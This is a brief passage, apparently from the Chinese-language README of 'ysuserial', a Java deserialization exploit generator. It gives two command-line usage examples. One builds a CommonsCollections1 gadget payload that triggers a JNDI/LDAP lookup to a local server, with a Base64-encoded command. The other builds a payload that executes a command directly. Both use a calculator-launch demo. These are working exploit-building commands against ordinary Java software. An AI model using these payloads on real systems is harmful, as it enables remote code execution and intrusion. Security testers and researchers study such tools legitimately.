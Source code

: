 **触发 JNDI 查询注入示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'JD-ldap://127.0.0.1:1389/Basic/Command/Base64/b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA=='
```

效果图：

![image-20220618205547397](images/image-20220618205547397.png)

**普通命令执行示例**：

```shell
java -jar ysuserial-<version>-su18-all.jar -g CommonsCollections1 -p 'open -a Calculator.app'
```

效果图：
